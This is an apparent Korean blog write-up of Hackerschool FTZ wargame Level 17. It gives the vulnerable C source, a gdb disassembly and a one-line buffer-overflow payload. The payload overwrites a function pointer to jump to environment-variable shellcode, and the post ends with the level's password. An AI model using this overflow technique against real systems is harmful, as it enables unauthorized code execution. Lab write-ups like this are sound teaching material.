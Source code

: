 ```yaml
---
date: '2022-10-07'
before : '2022-10-06'
after : '2022-10-08'
title: '해커스쿨 FTZ 레벨 17'
categories: ['KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제는 사실 정말 설명이 필요 없을정도로 Level 16과 비슷하다...

### 1. Level 17

소스코드부터 확인해보자.

```
#include <stdio.h>

void printit() {

  printf("Hello there!\n");

}

main()

{ int crap;

  void (*call)()=printit;

  char buf[20];

  fgets(buf,48,stdin);

  setreuid(3098,3098);

  call();
}
```

크게 어려울 것 없는 코드다. 다만 이번엔 printit함수만 존재한다! 그렇다고 RET까지 가기에는 입력받는 범위가 모자라다. 


그럼 단순히 Shell 코드 환경변수 하나 만들어서 그 주소를 printit에 대입하면 될 것이다. 환경변수를 만들고 주소까지 확인하는 법은 내 블로그 FTZ Level12에 자세히 나와있다!


환경변수를 만들고 주소까지 확인해보니 :
```
0xbffffc18
```
값이 나왔다. gdb로 포인터와 배열 사이의 거리를 재보자.
```
0x080484a8 <main+0>:    push   ebp
0x080484a9 <main+1>:    mov    ebp,esp
0x080484ab <main+3>:    sub    esp,0x38
0x080484ae <main+6>:    mov    DWORD PTR [ebp-16],0x8048490
0x080484b5 <main+13>:   sub    esp,0x4
0x080484b8 <main+16>:   push   ds:0x804967c
0x080484be <main+22>:   push   0x30
0x080484c0 <main+24>:   lea    eax,[ebp-56]
0x080484c3 <main+27>:   push   eax
0x080484c4 <main+28>:   call   0x8048350 <fgets>
0x080484c9 <main+33>:   add    esp,0x10
0x080484cc <main+36>:   sub    esp,0x8
0x080484cf <main+39>:   push   0xc1a
0x080484d4 <main+44>:   push   0xc1a
0x080484d9 <main+49>:   call   0x8048380 <setreuid>
0x080484de <main+54>:   add    esp,0x10
0x080484e1 <main+57>:   mov    eax,DWORD PTR [ebp-16]
0x080484e4 <main+60>:   call   eax
0x080484e6 <main+62>:   leave
0x080484e7 <main+63>:   ret
0x080484e8 <main+64>:   nop
0x080484e9 <main+65>:   nop
```
예상했지만, 저번 문제와 똑같다(...) 


그냥 저번 문제의 코드에서 주소만 쉘코드 주소로 바꿔서 넣어보니 문제가 풀린다.
```
(python -c 'print "A"*40+"\x18\xfc\xff\xbf"'; cat) | ./attackme
```

비밀번호 : why did you do it


---
## Source

- 해커스쿨 FTZ
- Me!



